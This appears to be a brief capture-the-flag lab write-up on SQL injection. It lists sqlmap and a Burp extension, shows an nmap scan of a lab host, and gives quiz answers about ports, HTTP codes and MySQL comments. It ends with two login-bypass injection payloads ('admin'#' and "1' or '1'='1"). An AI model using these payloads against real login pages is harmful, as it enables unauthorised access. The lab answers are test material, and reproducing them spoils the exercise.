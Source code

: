 # SQL Injection Attack (SQLi)
* SQL stands for Structured Query language
* OWASP A03:2021-Injection (https://owasp.org/www-project-top-ten/)
## Tools
```
CLI Tools:
    sqlmap
Burp Extensions:
    SQLiPy (https://portswigger.net/support/using-burp-with-sqlmap)
```
* Sample scan results
```
┌──(root㉿kali)-[~]
└─# nmap -sC -sV 10.129.18.37    
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-05 14:45 EDT
Nmap scan report for 10.129.18.37
Host is up (1.0s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.72 seconds
┌──(root㉿kali)-[~]
└─# 
```
* What does Nmap report as the service and version that are running on port 80 of the target? - Apache httpd 2.4.38 ((Debian)) 
* 443 is the standard port used for the HTTPS protocol.
* Directory is a folder called in web-application terminology.
* 404 is the HTTP response code is given for 'Not Found' errors.
* "#" is a single character can be used to comment out the rest of a line in MySQL.
* SQL payloads for login page(Web page: Port 80):
```
admin'#
1' or '1'='1
```
